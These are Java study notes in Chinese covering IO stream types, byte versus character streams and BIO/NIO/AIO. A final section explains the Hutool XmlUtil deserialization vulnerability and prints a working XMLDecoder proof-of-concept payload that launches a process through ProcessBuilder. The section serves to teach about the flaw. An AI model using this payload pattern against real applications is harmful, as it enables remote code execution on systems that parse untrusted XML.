


## Java 中 IO 流分为几种?  

- 按照流的流向分，可以分为 输入流 和 输出流
  - InputStream / Reader : 所有的输入流的基类，前者是字节输入流，后者是字符输入流
  - OutputStream / Writer : 所有输出流的基类，前者是字节输出流，后者是字符输出流
- 按照操作单元划分，可以划分为 字节流 和 字符流
- 按照流的角色划分为 节点流 和 处理流



## 既然有了字节流,为什么还要有字符流？

- **字节流**
  - 字节流则更适合处理二进制数据
  - 字节流以字节为单位进行输入输出，适用于处理二进制数据（例如图像、音频、视频等）或与底层设备进行通信时。字节流通常用于处理文件和网络连接中的数据传输。它们是处理数据的底层工具，提供了最基本的输入输出操作。
- **字符流**
  - 字符流更适合读取和写入文本文件
  - 字符流以字符为单位进行输入输出，适用于处理文本数据。字符流会自动处理字符编码和解码，而字节流则需要手动处理。这使得字符流在处理文本数据时更方便和高效，尤其是当涉及到国际化和本地化时、
- 尽管字节流可以处理所有类型的数据，但为了更方便地处理文本数据，Java提供了字符流

## BIO、NIO、AIO？



- BIO
  
  - 同步阻塞IO
  - 客户端有连接请求时服务器端就需要启动一个线程进行处理（可以使用连接池优化）
  - JDK1.4之前的选择
- NIO
  - 同步非阻塞IO

  - 服务器端用一个线程处理多个连接，客户端发送的连接请求会注册到多路复用器上，多路复用器轮询到连接有IO请求就进行处理

    - NIO工作原理

      ```mermaid
      graph TD;
          A[应用程序] -->|发起连接请求| B((Selector));
          B -->|Register| C[Channel];
          C -->|Accept Connection| B;
          B -->|Listen for Read/Write Events| D[Channel List];
          D -->|Read/Write Event Occurs| E[Ready Channels];
          E -->|Read Data| F[Buffer];
          E -->|Write Data| F;
          F -->|Process Data| E;
      
      ```

      

      1. 应用程序（A）通过选择器（B）发起连接请求
      2. 选择器（B）将通道（channel代表了服务端与客户端的连接）注册，使其成为监视对象，以便选择器可以监听多个通道的事件。
      3. 当有新的连接请求到达时，选择器（B）会处理这个事件，并将新的通道（C）加入到已注册的通道列表（D）中，以备后续操作。
      4. 选择器（B）不断监听通道列表（D）中通道的读写事件。
      5. 当某个通道（E）有读或写事件时，选择器（B）会将该通道标记为就绪状态，并执行相应的读取或写入操作。
      6. 读取或写入操作使用缓冲区（F）来处理数据，应用程序可以在缓冲区中读取或写入数据。
- AIO

  - 异步非阻塞IO
  - Java 的 NIO 就是 Reactor
  - 当有事件触发时，服务器端得到通知，进行相应的处理，完成后才通知(回调)服务端程序启动线程去处理
  - 一般适用于连接数较多且连接时间较长的应用


## hutool之XmlUtil反序列化漏洞
> - 同样存在漏洞的方法还有IoUtil.readObject方法，存在反序列化漏洞，这些方法的漏洞在JDK中本身就存在，而且JDK的做法是要求用户自行检查内容，作为工具类，这块没法解决。
> - hutool在新版本中把这个方法拿掉了
>   - 【core 】 【重要】删除XmlUtil.readObjectFromXml方法，避免漏洞（issue#2855@Github）
### 问题描述
Hutool提供的XML实用程序类在使用XmlUtil.readObjectFromXml解析不受信任的XML字符串时可能容易受到远程代码执行的攻击
### 使用示例
```java
    public static void main(String[] args) {
        InputSource inputSource = new InputSource(StrUtil.getReader("<java>\n" +
                "    <object class=\"java.lang.ProcessBuilder\">\n" +
                "        <array class=\"java.lang.String\" length=\"1\">\n" +
                "            <void index=\"0\">\n" +
                "                <string>calc</string>\n" +
                "            </void>\n" +
                "        </array>\n" +
                "        <void method=\"start\"></void>\n" +
                "    </object>\n" +
                "</java>\n"));
        Object result;
        XMLDecoder xmldec = null;
        try {
            xmldec = new XMLDecoder(inputSource);
            result = xmldec.readObject();
        } finally {
            IoUtil.close(xmldec);
        }
    }
```


### 漏洞原理
这个XML片段描述了一个 `java.lang.ProcessBuilder` 对象的序列化表示，并且调用了它的 `start` 方法。以下是对该XML片段的详细解释：

```xml
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"></void>
    </object>
</java>
```

1. **根元素 `<java>`**:
  - 包含整个Java对象序列化的描述。

2. **对象 `<object class="java.lang.ProcessBuilder">`**:
  - 表示创建一个 `java.lang.ProcessBuilder` 对象。
  - `class` 属性指定了要创建的对象的类，这里是 `java.lang.ProcessBuilder`。

3. **数组 `<array class="java.lang.String" length="1">`**:
  - 表示创建一个包含 `String` 对象的数组。
  - `class` 属性指定数组元素的类型是 `java.lang.String`。
  - `length` 属性指定数组的长度是 1。

4. **数组元素 `<void index="0">`**:
  - 表示数组的第一个元素（索引为0）。
  - 包含一个 `<string>` 元素，其值为 `calc`，表示要在 `ProcessBuilder` 中运行的命令是 `calc`。

5. **方法调用 `<void method="start"></void>`**:
  - 表示调用 `ProcessBuilder` 对象的 `start` 方法。
  - `start` 方法启动由 `ProcessBuilder` 配置的进程（在这种情况下，启动计算器应用程序）。

### 用Java代码展示等效的对象创建和方法调用

等效的Java代码如下：

```java
import java.io.IOException;

public class Main {
    public static void main(String[] args) {
        // 创建 ProcessBuilder 对象，并配置它启动 calc 命令
        ProcessBuilder processBuilder = new ProcessBuilder("calc");

        try {
            // 调用 start 方法，启动进程
            Process process = processBuilder.start();

            // 检查进程是否在运行
            if (process.isAlive()) {
                System.out.println("The process is running...");
            } else {
                System.out.println("The process failed to start.");
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

**解释**:

1. **创建 `ProcessBuilder` 对象**:
    ```java
    ProcessBuilder processBuilder = new ProcessBuilder("calc");
    ```

2. **调用 `start` 方法**:
    ```java
    Process process = processBuilder.start();
    ```

3. **检查进程是否在运行**:
    ```java
    if (process.isAlive()) {
        System.out.println("The process is running...");
    } else {
        System.out.println("The process failed to start.");
    }
    ```

这个Java代码段执行的操作与XML描述的操作相同，创建了一个 `ProcessBuilder` 对象，配置它运行 `calc` 命令，并启动该命令。
